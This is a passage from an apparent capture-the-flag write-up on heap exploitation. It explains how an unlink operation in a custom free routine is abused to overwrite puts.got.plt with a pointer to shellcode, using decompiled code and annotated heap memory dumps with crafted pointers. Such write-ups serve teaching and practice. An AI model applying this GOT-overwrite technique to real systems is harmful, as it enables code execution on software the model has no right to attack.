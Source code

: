 Then, we need to use `unlink` to make puts.got.plt point to the address where we put shellcode. Take a look at the `free` code.

* buf - address where chunk stores data
* size_adr - address where chunk stores size
* buf_bk - bk of current_freed_chunk
* buf_fd - fd of current_freed_chunk
* qword_6020B0 - a list which stores address of message

```
# list struct
0x6020b0:      0x0000000000603000      0x0000000000000000           # Head  | Nothing
0x6020c0:      0x0000000000603030      0x0000000000603060           # First | Second
```

```c
size_adr = buf-24;
buf_bk = *(_QWORD *)(buf-24+16);
buf_fd = *(_QWORD *)(buf-24+8);
if (buf_bk)
    *(_QWORD *)(buf_bk+8) = buf_fd;                         // make buf_bk->fd = current_freed_chunk->fd
if (buf_fd)
    *(_QWORD *)(buf_fd+16) = buf_bk;                        // make buf_fd->bk = current_freed_chunk->bk
*(_QWORD *)(size_adr+8) = *(_QWORD *)(qword_6020B0+8)       // make current_freed_chunk->fd = first message  
if (*(_QWORD *)(qword_6020B0+8))
    *(_QWORD *)(*(_QWORD *)(qword_6020B0+8)+16) = size_adr; // make first message->bk = current_freed_chunk
*(_QWORD *)(qword_6020B0+8) = size_adr;                     // make Head->fd = current_freed_chunk
*(_QWORD *)size_adr &= 0xFFFFFFFFFFFFFFFE;                  // clear inuse bit
```

Use `buf_bk->fd = current_freed_chunk->fd`, to overwrite puts.got.plt. Make `buf_bk` = `puts.got.plt-8` and `buf_fd` = `address of shellcode`. And since `buf_bk->fd` will be `puts_got.plt`, `puts.got.plt` will point to `address of shellcode` after the `unlink` operation.

Here we need to use `change` to overwrite struct of second message first. Then free the second message.

```
0x603000:      0x0000000000000018      0x0000000000603018           # Head
0x603010:      0x0000000000000000      0x0000000000000031           # First message
0x603020:      0x0000000000603048      0x0000000000603000
0x603030:      0x4141414141414141      0x0000000000000000
0x603040:      0x0000000000000000      0x0000000000000031           # Second message
0x603050:      0x00000000006030a8      0x0000000000602010
0x603060:      0x4242424242424242      0x0000000000000000
0x603070:      0x0000000000000000      0x00000000000003a0           # Top chunk
0x603080:      0x0000000000000000      0x0000000000603048
0x603090:      0x0000000000000000      0x0000000000000000
0x6030a0:      0x0000000000000000      0x00000000000016eb
0x6030b0:      0x0000000000000000      0x0000000000000000
0x6030c0:      shellcode
```
